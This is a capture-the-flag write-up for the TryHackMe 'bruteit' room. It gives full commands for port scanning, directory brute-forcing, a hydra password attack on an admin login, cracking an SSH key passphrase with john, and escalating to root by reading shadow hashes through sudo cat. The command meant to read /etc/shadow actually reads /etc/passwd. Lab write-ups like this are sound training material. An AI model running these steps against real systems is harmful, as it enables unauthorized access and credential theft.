



# 5 - bruteit

Room Link --> [https://tryhackme.com/room/bruteit](https://tryhackme.com/room/bruteit)

Starting with an Nmap search:


```bash
nmap -sV -p- -Pn -n 10.10.43.114 --min-rate 20000

# results:
ports 22 and 80 are open.
```


Dirbusting with gobuster


```bash
gobuster dir -u http://10.10.43.114 -w /usr/share/wordlists/dirb/common.txt -t 300 2>/dev/null

# results:
Found a secret dir --> /admin
```


[http://10.10.43.114/admin/](http://10.10.43.114/admin/) --> this takes us to a login page, we viewed source code, and found the username is "admin".

Bruteforcing Login with Hydra.

From the developers option we craft our hydra payload.

<figure><figcaption><p>POST request to /admin/</p></figcaption></figure>

<figure><figcaption><p>POST data values</p></figcaption></figure>

<figure><figcaption><p>grep keyword</p></figcaption></figure>

Our payload will now be:


```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.43.114 http-post-form "/admin/:user=^USER^&pass=^PASS^:F=Username or password invalid"
```


<figure><figcaption></figcaption></figure>

Login with credentials:

<figure><figcaption></figcaption></figure>

There's an SSH private key on the page, after downloading it, and trying to use it to login with "john" as username to SSH, it requested for a key.

<figure><figcaption></figcaption></figure>

We can use "ssh2john" to crack it.


```bash
# we convert the private key to john crackable format.
ssh2john id_rsa > hash.txt

# crack with john.
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```


<figure><figcaption></figcaption></figure>

We can login to SSH now:

```
# give required permissions for the key
chmod 600 id_rsa

# login
ssh john@10.10.43.114 -i id_rsa
```

Login Success.

User flag is there.

### Privilege Escalation


```bash
sudo -l

# there is a "/bin/cat" binary, we go to gtfobins and check how to exploit it.
# we can cat the /etc/shadow content, and crack root password.
sudo /bin/cat /etc/passwd
# then crack it with john.
su root # input password and BOOM!
```

